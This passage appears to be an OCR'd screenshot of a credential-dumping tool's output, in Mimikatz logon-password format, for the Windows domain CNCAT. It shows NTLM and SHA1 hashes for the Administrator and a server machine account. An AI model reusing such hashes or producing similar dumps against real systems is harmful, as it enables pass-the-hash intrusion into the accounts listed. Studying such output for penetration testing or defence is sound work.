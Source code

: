         * Username : Administrator

        * Domain  : CNCAT

        * NTLM    : 42e2656ec24331269f82160ff5962387

        * SHA1    : 202a4f252fa716b16cc934c114a2b4423add410d

        [00010000] CredentialKeys

        * NTLM    : 42e2656ec24331269f82160ff5962387

        * SHA1    : 202a4f252fa716b16cc934c114a2b4423add410d

       tspkg:   

       wdigest:

        * Username : Administrator

        * Domain  : CNCAT

        * Password : (null)

       kerberos:     

        * Username : administrator

        * Domain  : CNCAT.CC

        * Password : (null)

       ssp:

       credman:     

Authentication Id : 0 ; 86756(00000000:000152e4)

Session           : Interactive from 1

User Name         : DWM-1

Domain            : Window Manager

Logon Server      : (null)

Logon Time        : 2021/4/28 19:52:09

SID              : S-1-5-90-1

       msv:     

        [00000003] Primary

        * Username : 12SERVER-EX13$

        * Domain  : CNCAT

        * NTLM    : 7e0ebfdc16be2cf7652792713162d817

        * SHA1    : a413aeaf7935bab126af11ad8a1221651217e014

       tspkg:   

       wdigest:
